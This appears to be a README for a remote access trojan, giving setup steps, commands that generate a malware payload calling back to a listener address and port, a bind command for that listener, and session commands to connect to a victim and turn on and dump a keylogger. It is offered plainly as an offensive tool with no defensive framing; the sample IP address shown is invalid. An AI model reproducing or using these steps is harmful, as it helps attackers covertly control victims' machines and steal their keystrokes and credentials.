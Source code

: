 
### Installation

```
$ Install python > 3.6
$ git clone https://github.com/starcheek/rat.git
$ cd rat/
$ pip3 install -r requirements.txt
```

To start
 - cd main
 - python main.py help 

From there, the manual will guide you.


Examples:

```
$ python main.py generate --address 134.276.92.1 --port 2999 --output ./test_malware
```

```
$ python main.py bind --address 134.276.92.1 --port 2999
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
```